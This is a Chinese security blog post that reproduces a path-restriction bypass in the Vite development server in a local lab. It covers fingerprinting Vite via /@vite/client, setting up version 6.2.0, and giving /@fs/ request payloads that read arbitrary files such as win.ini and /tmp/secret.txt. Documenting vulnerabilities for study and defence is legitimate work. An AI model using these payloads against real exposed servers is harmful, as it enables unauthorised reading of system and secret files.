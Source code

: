 #  Vitejs漏洞复现与利用   
原创 进击的hack  进击的HACK   2025-05-05 23:50  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DuibU3GqmxVmRsdItbBVRKegNHicHQvAHDdZsGpLVU7touSU1AU1twHTfRjG3Vu5aUh0RnPPllfVUhs4qdWF5QYQ/640?wx_fmt=png&wxfrom=13 "")  
  
声明：  
文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途给予盈利等目的，否则后果自行承担！  
如有侵权烦请告知，我们会立即删除并致歉。谢谢  
！  
  
文章有疑问的，可以公众号发消息问我，或者留言。我每天都会看的。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9zYJrD2VibHmqgf4y9Bqh9nDynW5fHvgbgkSGAfRboFPuCGjVoC3qMl6wlFucsx3Y3jt4gibQgZ6LxpoozE0Tdow/640?wx_fmt=png&wxfrom=13 "")  
  
  
   
  
> 字数 485，阅读大约需 3 分钟  
  
## 前言  
  
Vitejs 是一款基于原生 ES 模块的新一代前端构建工具。  
  
项目地址：https://github.com/vitejs/vite  
  
在渗透测试的时候，发现前端用这个的框架的还不少。于是就记录了一下。  
## vitejs指纹  
```
/@vite/client
```  
  
在Yakit中配置匹配信息  
```
[{    "Rule": "/@vite/client",    "NoReplace": true,    "Color": "red",    "EnableForResponse": true,    "EnableForHeader": false,    "EnableForBody": true,    "Index": 56,    "ExtraTag": [        "vitejs"    ],    "VerboseName": "vitejs"}]
```  
  
![764af703d45ce74bac5a5baceb198abf.png](https://mmbiz.qpic.cn/sz_mmbiz_png/a1BOUvqnbrh1vRx1X770QicCyFSDIj4iaroF9WYSgKPbMZG1iapX0BP3TEiba3p2o4LicXa7iagqFmIJGxMlM6EiaRAtg/640?from=appmsg "null")  
  
764af703d45ce74bac5a5baceb198abf.png  
  
提示存在vitejs  
  
![32544a540215fd27554208e257f677ea.png](https://mmbiz.qpic.cn/sz_mmbiz_png/a1BOUvqnbrh1vRx1X770QicCyFSDIj4iarAQTEfbj1GwCZEqm3U0p3f90YJVLEf4uLdspCmBAaibiboXHUbG02qORQ/640?from=appmsg "null")  
  
32544a540215fd27554208e257f677ea.png  
  
测试http://192.168.23.1/@fs/  
  
![5b57c5a4300975d692289fa7fd1e36bf.png](https://mmbiz.qpic.cn/sz_mmbiz_png/a1BOUvqnbrh1vRx1X770QicCyFSDIj4iarCPKoXs5qWHFH2FRgkPSS2UV475NllEOcZJuKDk0mnkt2h5cK49fvBQ/640?from=appmsg "null")  
  
5b57c5a4300975d692289fa7fd1e36bf.png  
  
可以看到打印绝对路径，说明确实存在vitejs组件，之后可以尝试他的历史漏洞。  
  
可参考：https://github.com/vitejs/vite/security  
## 安装Vitejs  
```
npm create vite@6.2.0cd vite-project/
```  
### 配置Vite版本  
  
打开package.json，去掉vite版本6.2.0前面的~  
和^  
  
![c0b2b703ef3f1863f0f1653e4c203832.png](https://mmbiz.qpic.cn/sz_mmbiz_png/a1BOUvqnbrh1vRx1X770QicCyFSDIj4iarJsVSAvD9TkxPoUDhZxJjvEK5ZYLlv1pdZPSu4GqCyjsS8PIVa9H56g/640?from=appmsg "null")  
  
c0b2b703ef3f1863f0f1653e4c203832.png  
- • ^：表示兼容更新，即允许安装大于指定版本但小于下一个主要版本的更新。例如^5.2.1 允许安装 5.x.x 系列的最新版本，但不允许安装 6.x.x 系列。  
  
- • ：表示补丁更新，即允许安装大于指定版本但小于下一个次要版本的更新。例如  
5.7.2 允许安装 5.7.x 系列的最新版本，但不允许安装 5.8.x 系列。  
  
### 配置vite的对外host  
  
打开package.json，修改dev  
```
"dev": "vite --host 0.0.0.0",
```  
  
![b7f6d1ce111e6e9f7ced5bc8570f9742.png](https://mmbiz.qpic.cn/sz_mmbiz_png/a1BOUvqnbrh1vRx1X770QicCyFSDIj4iarhHCSleicdmLibZ8Jc5Rd4AvgVu8l1vYSn9lyja8dGSvRbc0mzlmCU31w/640?from=appmsg "null")  
  
b7f6d1ce111e6e9f7ced5bc8570f9742.png  
### 启动vite  
  
安装依赖  
```
npm installnpm run dev
```  
  
访问 http://192.168.23.1:5173/  
  
![4858be0ba5d7ea70c25fa4d80c256f7b.png](https://mmbiz.qpic.cn/sz_mmbiz_png/a1BOUvqnbrh1vRx1X770QicCyFSDIj4iartdWvPsxqA7bPoXkMGaVibEWiaQmRt6QBxyLYibfbLdZo0BSHRWCTu8prA/640?from=appmsg "null")  
  
4858be0ba5d7ea70c25fa4d80c256f7b.png  
## 漏洞复现  
  
参考：  
- • https://github.com/advisories/GHSA-x574-m823-4x7w  
  
访问URL，http://192.168.23.1:5173/@fs/  
- • @fs  
  
- • Vite 中的 @fs 机制是 Vite 在开发服务器中引入的一种特殊的模块解析前缀，其主要目的是支持从文件系统的任意位置加载模块，为开发带来了更大的灵活性。  
  
如下图，可以看到@fs只允许获取指定目录的文件  
  
![c7550b3390afaee6a4d2a629b29de9a5.png](https://mmbiz.qpic.cn/sz_mmbiz_png/a1BOUvqnbrh1vRx1X770QicCyFSDIj4iardOxlplpZiaibq3Cz9OPHPdxkAqHEmrLYniadHpQ2UrfdJlJBsBq5XbIVA/640?from=appmsg "null")  
  
c7550b3390afaee6a4d2a629b29de9a5.png  
  
如果是不存在的文件  
  
![6f25eab15c2a38e4a7d7e0c29698f4a1.png](https://mmbiz.qpic.cn/sz_mmbiz_png/a1BOUvqnbrh1vRx1X770QicCyFSDIj4iarRxZphumJJKcF5SIiawjID79mmiahpy06g2FndQp2B9fE2RCRibcyIglxA/640?from=appmsg "null")  
  
6f25eab15c2a38e4a7d7e0c29698f4a1.png  
  
  
如果文件存在，但目录不在指定目录内，返回403  
  
![e7621cfacb8fc784df0eff293fbf5073.png](https://mmbiz.qpic.cn/sz_mmbiz_png/a1BOUvqnbrh1vRx1X770QicCyFSDIj4iarMv5JEV8mHmY3nYiaoa458f6SygQnZsoClDSSyweCPibN6R7OeUcYBJhA/640?from=appmsg "null")  
  
e7621cfacb8fc784df0eff293fbf5073.png  
```
/@fs/tmp/secret.txt?import&raw??/@fs/C:/windows/win.ini?import&?inline=1.wasm?init
```  
  
可以看到存在base64，解码  
  
![50a676217be81580ed326aaa67d9df7d.png](https://mmbiz.qpic.cn/sz_mmbiz_png/a1BOUvqnbrh1vRx1X770QicCyFSDIj4iarXocRl0WW7UCsHPR1ujfDZAoicElFwyz8WRPyyl52Y0IbQMfnpthsjOA/640?from=appmsg "null")  
  
50a676217be81580ed326aaa67d9df7d.png  
  
  
可以看到成功绕过限制，读取任意文件  
  
![a750e325b4518035ad705e8df0e4fe79.png](https://mmbiz.qpic.cn/sz_mmbiz_png/a1BOUvqnbrh1vRx1X770QicCyFSDIj4iar60su0BzXnHwSLJBf1Iof0hJRQNPv6hyZpo6lyE6gsQ7hWOu645TEQQ/640?from=appmsg "null")  
  
a750e325b4518035ad705e8df0e4fe79.png  
## 参考资料  
- • https://xz.aliyun.com/news/17745  
  
  
  
   
  
  
  
  
